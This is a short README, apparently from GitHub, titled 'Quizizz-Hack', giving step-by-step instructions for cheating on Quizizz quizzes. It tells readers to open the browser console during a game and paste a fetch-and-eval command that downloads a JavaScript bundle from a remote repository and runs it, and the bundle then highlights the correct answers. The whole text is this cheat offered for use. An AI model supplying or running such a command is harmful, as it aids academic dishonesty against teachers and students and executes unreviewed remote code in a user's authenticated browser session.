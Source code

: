 # Quizizz-Hack
How TO hack Quzizz 
1. join game
2. press Control + Shift + i 
3. Go to console
4. Type : fetch("https://raw.githubusercontent.com/gbaranski/quizizz-cheat/master/dist/bundle.js")
.then((res) => res.text()
.then((t) => eval(t)))
The Answer with a bright box its right!
done.

